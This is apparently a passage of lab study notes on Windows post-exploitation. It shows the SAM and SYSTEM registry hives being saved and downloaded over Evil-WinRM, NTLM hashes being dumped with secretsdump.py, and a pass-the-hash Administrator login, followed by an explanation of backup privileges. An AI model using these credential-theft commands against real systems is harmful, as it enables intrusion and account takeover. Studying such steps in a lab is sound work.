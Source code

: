 
**SAM & SYSTEM reg files**
We then proceed to make a backup of SAM and SYSTEM files and download them to our attacker machine:
```shell-session
*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!
```

With those files, we can dump the password hashes for all users using `secretsdump.py` or other similar tools:
```shell-session
user@AttackBox$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x41325422ca00e6552bb6508215d8b426
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cea1d7e8899f69e89088c4cb4bbdaa3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9657e898170eb98b25861ef9cafe5bd6:::
thmuser1:1011:aad3b435b51404eeaad3b435b51404ee:e41fd391af74400faa4ff75868c93cce:::
[*] Cleaning up...
```

And finally, perform Pass-the-Hash to connect to the victim machine with Administrator privileges:
```shell-session
user@AttackBox$ evil-winrm -i 10.10.6.17 -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
```

### Special Privileges and Security Descriptors
A similar result to adding a user to the Backup Operators group can be achieved without modifying any group membership. Special groups are only special because the operating system assigns them specific privileges by default. **Privileges** are simply the capacity to do a task on the system itself. They include simple things like having the capabilities to shut down the server up to very privileged operations like being able to take ownership of any file on the system. A complete list of available privileges can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) for reference.
![[Pasted image 20240909192900.png]]

In the case of the Backup Operators group, it has the following two privileges assigned by default:
- **SeBackupPrivilege:** The user can read any file in the system, ignoring any DACL in place.
- **SeRestorePrivilege:** The user can write any file in the system, ignoring any DACL in place.
